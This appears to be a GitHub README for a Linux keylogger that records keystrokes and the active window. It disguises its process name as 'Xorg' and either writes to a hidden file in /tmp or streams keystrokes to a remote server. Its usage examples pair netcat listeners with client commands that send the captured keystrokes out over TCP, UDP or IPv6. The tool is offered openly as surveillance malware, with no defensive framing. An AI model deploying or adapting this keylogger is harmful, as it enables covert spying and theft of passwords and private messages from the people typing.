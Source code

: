 # Simple_Local&Remote_Keylogger

##DESCRIPTION

- Simple keylogger that runs on Linux either locally or remotely.
- It shows the active window on which the target is writing.
- Keys are mapped on US keyboard.
- It shows the keyboard layout(e.g.: us, it, colemak, etc..).
- Process name is renamed as "Xorg".
- It works with both TCP and UDP and with ipv6 too.
- It must be run as root.

##USAGE:
```
#./slrk [OPTIONS]
```
##OPTIONS
```
-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>
```
##EXAMPLE

[TCP]
```
Server$ nc -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
[UDP]
```
Server$ nc -u -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
[IPv6]
```
Server$ nc -6 -lvp 8888 > logger.txt
Client#./slrk -m remote -a ::1 -p 8888
```	
